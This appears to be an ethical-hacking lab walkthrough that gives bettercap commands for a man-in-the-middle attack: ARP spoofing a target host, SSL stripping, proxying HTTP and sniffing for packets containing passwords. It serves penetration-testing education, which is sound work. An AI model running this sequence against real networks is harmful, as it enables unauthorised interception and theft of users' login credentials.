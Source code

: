 - An ethical hacker or a penetration tester, you must know how MITM attacks work, so that you can protect your organization’s sensitive information from them. bettercap is a powerful, flexible, and portable tool created to perform various types of MITM attacks against a network; manipulate HTTP, HTTPS, and TCP traffic in real-time; sniff for credentials; etc.

- Here, we will use the bettercap tool to intercept HTTP traffic on the target system.
- Open Terminal
	> sudo su
	> cd
	> bettercap -iface -eth0 
	- **-iface**: specifies the interface to bind to (in this example, **eth0**).

	> net.probe on (This module will send different types of probe packets to each IP in the current subnet for the **net.recon** module to detect them)
	
	> net.recon on (This module is responsible for periodically reading the system ARP table to detect new hosts on the network)
		- The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.

	> set http.proxy.sslstrip true (This module enables SSL stripping) - (SSL stripping is **a technique by which a website is downgraded from https to http**. In other words, the attack is used to circumvent the security which is enforced by SSL certificates on https sites. This is also known as SSL downgrading.)
	
	> set arp.spoof.internal true (This module spoofs the local connections among computers of the internal network)
	
	> set arp.spoof.targets 10.10.10.10 (This module spoofs the IP address of the target host.)
	
	> http.proxy on (This module initiates http proxy)
	
	> arp.spoof on (This module initiates arp spoofing)
	
	> net.sniff on (This module is responsible for performing sniffing on the network)
	
	> set net.sniff.regexp '.*password=.+' (This module will only consider the packets sent with a payload matching the given regular expression (in this case, **‘.*password=.+’**))
	
	- You can observe that bettercap starts sniffing network traffic on target machine **Windows 10**. 
		- bettercap collects all http logins used by routers, servers, and websites that do not have SSL enabled. In this task, we are using **www.moviescope.com** for demonstration purposes, as it is http-based. To use bettercap to sniff network traffic from https-based websites, you must enable the SSL strip module by issuing the command **set http.proxy.sslstrip true**.
